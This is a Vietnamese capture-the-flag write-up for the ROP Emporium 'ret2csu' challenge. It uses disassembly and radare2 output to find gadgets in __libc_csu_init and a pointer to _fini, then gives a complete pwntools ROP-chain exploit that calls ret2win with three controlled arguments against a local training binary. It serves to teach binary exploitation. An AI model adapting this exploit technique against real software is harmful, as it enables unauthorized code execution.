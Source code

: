 # ret2csu - challenge 8

[For more](https://stackoverflow.com/questions/61649960/why-do-program-level-constructors-get-called-by-libc-csu-init-but-destructor)

Thì chall này, tương tự như call me(with 3 args), có điều là chúng ta sẽ bị thiếu gadgets do đó cần ret2csu. với các gadgets hữu ích trong **__libc_csu_init** thì hàm này tồn tại do ta dynamic link, tức có đính kém thư viện liên kết thì file mới chạy được.

```asm
pwndbg> disass __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400640 <+0>:     push   r15
   0x0000000000400642 <+2>:     push   r14
   0x0000000000400644 <+4>:     mov    r15,rdx
   0x0000000000400647 <+7>:     push   r13
   0x0000000000400649 <+9>:     push   r12
   0x000000000040064b <+11>:    lea    r12,[rip+0x20079e]        # 0x600df0
   0x0000000000400652 <+18>:    push   rbp
   0x0000000000400653 <+19>:    lea    rbp,[rip+0x20079e]        # 0x600df8
   0x000000000040065a <+26>:    push   rbx
   0x000000000040065b <+27>:    mov    r13d,edi
   0x000000000040065e <+30>:    mov    r14,rsi
   0x0000000000400661 <+33>:    sub    rbp,r12
   0x0000000000400664 <+36>:    sub    rsp,0x8
   0x0000000000400668 <+40>:    sar    rbp,0x3
   0x000000000040066c <+44>:    call   0x4004d0 <_init>
   0x0000000000400671 <+49>:    test   rbp,rbp
   0x0000000000400674 <+52>:    je     0x400696 <__libc_csu_init+86>
   0x0000000000400676 <+54>:    xor    ebx,ebx
   0x0000000000400678 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:    add    rbx,0x1
   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret

```

Ta thấy có 2 gadgets hữu ích là:

```asm
#gadget1
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]


#gadget2
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret

```

Thì với gadget1 ta có thể control 3 regs rdi,rsi,rdx, tuy nhiên thứ ta cần để tâm chỉ là thanh ghi rdx, bởi ta đã có 2 gadgets khác cho rdi và rsi :

```shell
0x00000000004006a3 : pop rdi ; ret
0x00000000004006a1 : pop rsi ; pop r15 ; ret

```

**mov edi, r13d** :

|64-bit register | Lower 32 bits | Lower 16 bits | Lower 8 bits|
|---------|------|------|------|
rax             | eax           | ax            | al
rbx             | ebx           | bx            | bl
rcx             | ecx           | cx            | cl
rdx             | edx           | dx            | dl
rsi             | esi           | si            | sil
rdi             | edi           | di            | dil
rbp             | ebp           | bp            | bpl
rsp             | esp           | sp            | spl
r8              | r8d           | r8w           | r8b
r9              | r9d           | r9w           | r9b
r10             | r10d          | r10w          | r10b
r11             | r11d          | r11w          | r11b
r12             | r12d          | r12w          | r12b
r13             | r13d          | r13w          | r13b
r14             | r14d          | r14w          | r14b
r15             | r15d          | r15w          | r15b


Thì kịch bản khai thác sẽ là **ret** về gadget thứ 2, sau đó set các thanh ghi sau cho:

- rbx = 0, để khi thực hiện **call   QWORD PTR [r12+rbx*8]** sẽ để r12 có thể độc lập xác định con trỏ gọi hàm 
- rbp = 1, để khi cmp thì bypass được việc phải quay lại vòng lặp
- r12 = pointer point to **fini**
- r13 = 0
- r14 = 0
- r15 = *0xd00df00dd00df00d*


Sau khi call xong gadget2 thì có lệnh ret, sau đó là gadget1, set up các regs như ý mình, còn nữa 1 vấn đề ở lệnh call. ta phải call đến hàm nào mà k thay đổi các giá trị của thanh ghi rdx, chính là fini:

```asm
pwndbg> disass _fini
Dump of assembler code for function _fini:
   0x00000000004006b4 <+0>:     sub    rsp,0x8
   0x00000000004006b8 <+4>:     add    rsp,0x8
   0x00000000004006bc <+8>:     ret

```

Cơ mà vấn đề bây giờ là cần tìm pointer point to **_fini**:

```shell➜ chall8_ret2csu ⚡                                                13:59:22
▶ r2 ret2csu
 -- r2 talks to you. tries to make you feel well.
[0x00400520]> iS~.dynamic
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
[0x00400520]> pxQ@0x00600e00
0x00600e00 0x0000000000000001 section.+1
0x00600e08 0x0000000000000001 section.+1
0x00600e10 0x0000000000000001 section.+1
0x00600e18 0x0000000000000038 section.+56
0x00600e20 0x000000000000001d section.+29
0x00600e28 0x0000000000000078 elf_phdr+56
0x00600e30 0x000000000000000c section.+12
0x00600e38 0x00000000004004d0 section..init
0x00600e40 0x000000000000000d section.+13
0x00600e48 0x00000000004006b4 section..fini
0x00600e50 0x0000000000000019 section.+25
0x00600e58 0x0000000000600df0 section..init_array
0x00600e60 0x000000000000001b section.+27
0x00600e68 0x0000000000000008 section.+8
0x00600e70 0x000000000000001a section.+26
0x00600e78 0x0000000000600df8 section..fini_array
0x00600e80 0x000000000000001c section.+28
0x00600e88 0x0000000000000008 section.+8
0x00600e90 0x000000006ffffef5
0x00600e98 0x0000000000400298 section..gnu.hash
0x00600ea0 0x0000000000000005 section.+5
0x00600ea8 0x00000000004003c0 section..dynstr
0x00600eb0 0x0000000000000006 section.+6
0x00600eb8 0x00000000004002d0 section..dynsym
0x00600ec0 0x000000000000000a section.+10
0x00600ec8 0x000000000000007a elf_phdr+58
0x00600ed0 0x000000000000000b section.+11
0x00600ed8 0x0000000000000018 section.+24
0x00600ee0 0x0000000000000015 section.+21
0x00600ee8 0x0000000000000000 section.
0x00600ef0 0x0000000000000003 section.+3
0x00600ef8 0x0000000000601000 section..got.plt


```

Như đã thấy thì : ***0x00600e48 0x00000000004006b4 section..fini***

### exploit

```python
from pwn import *

r = process("./ret2csu")
payload = b""
# gdb.attach(r, api=True)

payload += b"a"*40 #padding
payload += p64(0x40069a) #gadget2
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(0x600e48) # point to fini_funct
payload += p64(0) # r13
payload += p64(0) # r14
payload += p64(0xd00df00dd00df00d) # r15
payload += p64(0x400680) # gadget1
payload += p64(0) * 7 # 6 + 1 for bypass:  add rsp,0x8
payload += p64(0x4006a3) # pop rdi ; ret
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0x4006a1) #  pop rsi ; pop r15 ; ret
payload += p64(0xcafebabecafebabe)  # rsi
payload += p64(0) # r15
payload += p64(0x4004e6) # ret
payload += p64(0x400510) # ret2win
r.sendline(payload)

r.interactive()


```